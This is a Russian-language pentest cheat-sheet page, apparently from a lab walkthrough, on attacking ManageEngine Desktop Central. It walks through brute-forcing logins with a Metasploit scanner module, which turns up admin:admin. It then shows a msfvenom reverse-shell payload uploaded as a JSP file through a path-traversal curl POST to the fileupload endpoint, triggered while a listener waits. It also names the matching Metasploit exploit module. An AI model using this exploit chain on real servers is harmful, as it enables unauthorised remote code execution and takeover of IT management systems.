


# Desktop Manage Engine Exploitation

Manage Engine - это комплексный пакет программ для управления ИТ, который предлагает решения для управления сетями, серверами, настольными компьютерами и приложениями.

<figure><figcaption></figcaption></figure>

Manage Engine BruteForce

Для подбора учетных данных используйте модуль `auxiliary/scanner/http/manageengine_desktop_central_login` , где в качестве аргументов в целях ускорения подбора вы можете взять следующие словари:

юзернеймы (ссылка)

пароли (ссылка)

После подбора вы найдете 1 валидную комбинацию admin:admin и получите доступ к панели администратора

Manage Engine Reverse Shell

Вы можете получить обратную оболочку уязвимого хоста, сделав следующее:

Сгенерируйте полезную нагрузку используя утилиту msfvenom и укажите ip-адрес и порт машины, на которую хотите получить shell

<figure><figcaption></figcaption></figure>

Далее, отправьте соответствующий POST-запрос за удаленную машину, в ходе которого будет создан .jsp файл с полезной нагрузкой в качестве содержимого

```
curl -v -X POST "http://172.20.10.3:8020/fileupload?connectionId=AAAAAAA\..\..\..\..\..\jspf\test.jsp&resourceId=B&action=rds_file_upload&computerName=sinn3r.php&customerId=47474747" --data @shell.txt --header "Content-Type:application/octet-stream" && http://172.20.10.3:8020/jspf/test.jsp
```

> Замените ip-адрес на адрес вашей машины

Затем обратитесь к созданному файлу с помощью утилиты curl, заранее подключив слушатель на выбранный вами порт

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Metasploit Shell

Помимо метода “вручную” вы можете использовать Metasploit модуль `exploit/windows/http/manageengine_connectionid_write`

<figure><figcaption></figcaption></figure>
